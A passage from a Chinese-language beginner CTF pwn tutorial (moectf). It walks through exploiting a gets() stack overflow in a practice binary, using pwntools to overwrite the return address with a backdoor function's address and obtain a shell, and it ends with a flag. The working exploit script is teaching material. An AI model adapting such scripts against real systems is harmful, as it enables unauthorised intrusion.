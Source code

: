 我们之前在程序当中写了一个```backdoor()```函数，其中包含有能够getshell的语句，同时我们在IDA中可以看到其地址为```0x400547```

![image.png](https://i.loli.net/2020/09/10/wg6HRpMc9mLdaBU.png)

#### 攻击神器：pwntools

接下来我们就需要考虑到如何将我们所构思出来的payload给输入到程序中了，那么这里我们就要用到一个对于每一位Pwner都十分重要的python库——**pwntools**

> pwntools需要在**Linux**系统下使用（如Ubuntu、manjaro、kali等）
>
> 在shell中输入如下指令安装pwntools
>
> ```shell
> $ sudo pip install pwntools
> ```

使用pwntools库我们可以很方便地输入相应的payload

接下来我们就该开始构造我们用以get shell的脚本了，利用pwntools库，构造exp如下：

```python
from pwn import *    # 从pwntools库中导入所需要的一切
p = process('./test')   # 运行一个程序
        # 需要注意的是，在连接远程服务器的时候，使用的是remote()
           # p = remote(addr,port)
              # 如：p = remote('sec.arttnba3.cn',10001)
p.recv()      # 从程序中读取输入直到下一个断点（如遇到输入语句）
sys_addr = p64(0x400547)  # 将地址构造为符合小端模式的bytes数组，长度为8
        # 需要注意的是在32位下应当使用p32()，长度为4
payload = b'A'*0x28 + sys_addr # 构造我们的payload
p.sendline(payload)    # 向程序发送我们的输入
        # 需要注意的是，sendline()会在末尾添加换行符'\n'
           # 若不想要发送多余的换行符，可以使用send()方法
p.interactive()     # 程序进入interactive模式，即进入我们与程序直接交互的界面
```

**成功get shell**

![image.png](https://i.loli.net/2020/09/19/gaKMp2WFLs8coRJ.png)

至此，我们已经完成了**从0开始利用gets()函数的栈溢出漏洞获取最高权限的整个过程**，接下来就该靠你自己的努力，去分析、利用每一个可以被利用的系统漏洞，夺取最高权限了

**为了拥有“能够getshell任意一台设备”的能力而努力吧！新生代的黑客们！**

```
moectf{PWN_T0_0WN!}
```
